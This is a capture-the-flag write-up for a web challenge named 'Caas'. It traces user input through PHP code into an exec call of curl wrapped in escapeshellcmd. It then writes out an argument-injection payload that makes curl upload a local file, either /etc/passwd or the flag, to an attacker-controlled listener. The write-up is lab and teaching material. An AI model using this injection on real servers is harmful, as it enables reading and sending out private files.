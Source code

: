 # Caas
![Image](<https://github.com/0x0ff3ns1v3/CTF-WriteUps/blob/main/Cyber%20Apolcalypse%202021/Pasted%20image%2020210419183444.png>)

The website gives the ability to request a URL through javascript. The following shows the javascript request.
```bash
...snip...
fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
...snip...
```

Reading the source code shows the _api/curl_ references the _CurlController_ file and uses the _execute_ function.
```bash
...snip...
$router->new('POST', '/api/curl', 'CurlController@execute' );
...snip...
```

This then gets passed to CommandModel.php as shown
```bash
...snip...
$command = new CommandModel($url);
...snip...
```

Finally, it reaches the point of execution on the file system.
```bash
...snip...
$this->command = "curl -sL " . escapeshellcmd($url);
...snip...
exec($this->command, $output);
...snip...
```

We see that the _escapeshellcmd_ is used and the command being executed is curl. This is not good as it will  do the following " Following characters are preceded by a backslash: ``&#;`|*?~<>^()[]{}$\``, `\x0A` and `\xFF`. `'` and `"` are escaped only if they are not paired. On Windows, all these characters plus `%` and `!` are preceded by a caret (`^`)." Luckily, curl has the ability to read a local file and send it to remote URL with the syntax as shown below.
```bash
$url = '-F password=@/etc/passwd http://example.com';
```

We must investigate where the web server is being hosted so we know where to read the file from. Reading the nginx conf shows the root located at /www
```bash
...snip...
root /www;
...snip...
```

Using this information, we can simply request the flag and send the request to our host machine. However, we must ensure the host is internet accessible. We can send the following command after setting up a nc listener on port 8000.

```bash
curl http://178.62.50.172:31782/api/curl -X POST -d 'ip=-F password=@/www/flag http://<PUBLIC IP ADDRESS>:8000'
```

